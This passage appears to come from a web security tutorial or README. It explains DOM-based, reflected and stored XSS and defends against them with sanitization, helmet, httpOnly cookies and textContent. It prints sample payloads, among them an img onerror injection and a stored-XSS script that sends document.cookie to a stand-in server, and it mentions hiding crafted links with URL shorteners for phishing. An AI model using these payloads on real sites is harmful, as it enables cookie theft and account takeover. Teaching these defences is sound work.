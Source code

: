 ### XSS Attacks
[XSS introduction](#XSS)

A DOM-Based XSS attack occurs when an attack payload is executed by altering the DOM in the victim’s browser.<br>
An example would be writing `<script>alert('Hacked!');</script>` inside an input that will be displayed afterward, instead of displaying the actual text the browser could execute the javascript inside the script.<br>
Alternatively `<script>alert('Hacked!');</script>` can be written inside the URL query parameters, this new URL will form a crafted URL, this crafted URL can be disguised using an URL shortener, the final disguised crafted URL with a malicious script can be send to other people during a phishing attack.<br>
Certain times protection exist against the script tags but not other tags thus alternatively javascript can be injected like this `<img src="bad_image" onerror="alert('Hacked!')">`.

In a DOM-Based XSS attack the malicious script stays client-side interacting with the frontend HTML and javascript while in a reflected XSS attack the script passes through the backend whereby the backend sends back to the user the frontend with the malicious script without storing it in the database contrary to a stored XSS attack.<br>
A XSS attack will usually be done by writing a script inside a URL query parameter that will be used by the backend. Again this link can be disguised and be part of phishing attack.<br>
A reflected XSS attack could for example send a malicious link to a victim with code that retrieves a victim’s cookies or other important information and send that information directly to the attacker’s personal server.<br>

A stored XSS attack consists of injecting a script that will be stored inside a database.<br>
For example someone writes `<script>fetch("http://localhost:5000?data=${document.cookie}")</script>` inside a public comment section. Each person that views the comment section could execute the malicious script, with this malicious script sending the cookie of the victim elsewhere.<br>

In order to securely setup a cookie in an Express server, you can use the library `express-session` to set up a session and configure the application with specific properties pertaining to cookies such as `httpOnly: true, secure: true` which will help mitigate the risk of client-side scripts accessing the protected cookie.

`helmet` is a Node.js package that consists of 15 modules related to configuring security of HTTP headers. By simply adding this package in an express app most of those modules will be configured automatically and provide additional security against certain types of attacks.<br>

Similar to SQL injections, XSS is preventable with input sanitization and application-level firewalls.<br>
Sanitization is the process of removing/replacing problematic characters with safe versions, usually libraries/modules exist that do the work for you.<br>
Rather than remove characters, we can also replace them with HTML-encoded versions of the characters. This allows us to retain the characters, but remove their capacity to affect the page’s HTML.<br>
Validation checks if the input meets a set of criteria (such as a string contains no standalone single quotation marks), whereas sanitization modifies the input to ensure that it is valid (such as removing single quotes).<br>
Look at the [SQL section](#SQL-Attacks) to learn more about sanitization and validators.

To prevent DOM-based attacks the function `eval()` or property setter `.innerHTML` should not evaluate user input as they can execute javascript. `.innerHTML` could be replaced with `.textContent` to prevent javascript code from being executed. The simplest prevention would be to avoid rendering user input. Lastly, one should validate and sanitize all user input in order to prevent any data manipulation. 

